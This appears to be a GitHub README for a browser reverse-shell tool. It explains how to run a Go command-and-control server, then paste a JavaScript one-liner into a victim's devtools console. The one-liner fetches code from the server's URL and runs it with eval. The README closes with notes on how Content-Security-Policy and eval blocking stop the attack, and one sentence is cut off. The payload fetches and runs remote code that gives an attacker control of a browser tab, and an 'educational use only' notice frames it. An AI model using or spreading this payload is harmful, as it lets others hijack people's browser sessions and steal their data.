 # Browser Reverse Shell

**NOTICE: for educational purposes only, DO NOT use without the explicit permission of the owner of the browser**

Create a reverse shell into a browser tab.

## How to use

start the C2 server by going into the c2 directory and running

~~~bash
go run main.go
~~~

then in the victim browser, open devtools and paste the fetch-rev-shell.js contents into the console, changing out the url for the ip address of your c2 server.

~~~js
const url = "http://localhost:8080/get"; const r1 = await fetch(url);const r2 = await r1.text(); eval(r2);
~~~

now go to the console of the c2 server, you now have a javascript reverse shell into the current browser tab of the 

## Challenges

- This reverse shell relies on the eval function of javascript, which many sites block.
- Many sites (like github) block fetching from other sources than the preapproved ones, which will give you an error like
~~~
Content-Security-Policy: The page’s settings blocked the loading of a resource (connect-src) at http://localhost:8080/get because it violates the following directive: “connect-src 'self'
~~~

